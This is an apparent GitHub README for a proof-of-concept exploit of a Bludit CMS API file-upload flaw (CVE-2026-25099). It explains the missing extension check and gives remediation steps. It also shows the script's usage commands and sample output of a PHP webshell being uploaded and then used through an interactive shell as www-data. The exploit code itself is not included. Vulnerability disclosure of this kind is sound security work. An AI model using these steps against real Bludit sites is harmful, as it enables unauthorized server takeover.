

# CVE-2026-25099 - Bludit CMS API Unrestricted File Upload to RCE

## Description

Bludit CMS versions before 3.18.4 allow an authenticated attacker with a valid API token to upload files of any type and extension via the `POST /api/files/<page-key>` endpoint. The `uploadFile()` function performs no file extension or content validation, allowing PHP webshells to be uploaded and executed as `www-data`.

## Affected Versions

- **Vulnerable:** Bludit < 3.18.4
- **Fixed:** Bludit 3.18.4
- **Prerequisite:** Valid API token (visible in admin panel under Plugins → API)

## Usage

```bash
# Single command execution
python3 CVE-2026-25099.py -u http://target -t "API_TOKEN" -c "id"

# Interactive shell
python3 CVE-2026-25099.py -u http://target -t "API_TOKEN"
```

## Example Output

```
[*] CVE-2026-25099 - Bludit CMS API File Upload to RCE
[*] Target: http://target
[*] Retrieving page key...
[+] Page key: create-your-own-content
[*] Uploading webshell...
[+] Shell uploaded: http://target/bl-content/uploads/pages/create-your-own-content/abcdefgh.php
[*] Verifying RCE...
[+] RCE confirmed: uid=33(www-data) gid=33(www-data) groups=33(www-data)

[+] Interactive shell (type 'exit' to quit)

shell> whoami
www-data
shell> grep BLUDIT_VERSION /var/www/html/bl-kernel/boot/init.php
define('BLUDIT_VERSION', '3.18.2');
```

## Screenshots



## Remediation

- Update to Bludit 3.18.4 or later
- Disable the API plugin if not needed
- Monitor `/bl-content/uploads/` for unexpected PHP files

## References

- [CVE-2026-25099 on MITRE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2026-25099)
- [Technical Analysis - yh.do](https://yh.do/cve-2026-25099-bludit-api-file-upload-rce/)

## Author

**Yahia Hamza** - [https://yh.do](https://yh.do)

## Disclaimer

This tool is provided for authorized security testing and educational purposes only. Use responsibly and only against systems you have permission to test.
